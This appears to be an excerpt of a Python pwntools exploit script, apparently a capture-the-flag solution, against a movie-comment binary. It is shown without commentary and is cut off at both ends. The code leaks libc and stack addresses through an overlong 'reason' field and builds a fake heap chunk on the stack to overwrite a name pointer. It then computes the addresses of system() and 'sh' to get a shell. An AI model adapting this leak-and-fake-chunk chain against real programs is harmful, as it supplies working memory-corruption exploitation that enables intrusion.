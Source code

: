 ```python
    p.recvuntil('movie? ')
    p.send(reason)
    p.recvuntil('comment: ')
    p.send(comment)

def comment2(age,reason):
    p.recvuntil('age: ')
    p.sendline(age)
    p.recvuntil('movie? ')
    p.sendline(reason)

def leaklibc():
    comment1("BBBB","20",24*"B","BBBB")
    p.recvuntil('Reason: ')
    p.recv(24)
    addr = u32(p.recv(4))
    print hex(addr)
    libc_base = addr -libc.symbols['_IO_file_sync']-7
    p.recvuntil('<y/n>: ')
    p.send('y')
    return libc_base

def leakstack():
    comment1("BBBB","20",80*"B","BBBB")
    p.recvuntil('Reason: ')
    p.recv(80)
    addr = u32(p.recv(4))
    p.recvuntil('<y/n>: ')
    p.send('y')
    return addr

def fakechunk(stack):
    fake_chunk = "DDDD"        # prev_size
    fake_chunk += p32(0x41)    # size
    fake_chunk += (0x40-8)*"D"
    fake_chunk += p32(0)  
    fake_chunk += p32(0x41)    # next chunk size

    fake_chunk_ptr = stack - 0x70 + 8
    comment  = "D" * 0x50
    comment += p32(0x00)       # fake age
    comment += p32(fake_chunk_ptr) # overwrite name ptr

    comment1("DDDD","40",fake_chunk, comment)
    p.recvuntil('<y/n>: ')
    p.send('y')

def main():
    raw_input('add 100 comment to overwrite nbytes')
    for i in range(10):
        comment1("AAAA","10","AAAA","AAAA")
        p.recvuntil('<y/n>: ')
        p.sendline('y')
    for i in range(90):
        comment2("10","AAAA")
        p.recvuntil('<y/n>: ')
        p.send('y')   

    raw_input('leak system_addr')
    libc_base = leaklibc()
    system_addr = libc_base + libc.symbols['system']
    binsh_addr = libc_base + next(libc.search('sh\0'))
    log.success("system_addr: {}".format(hex(system_addr)))
```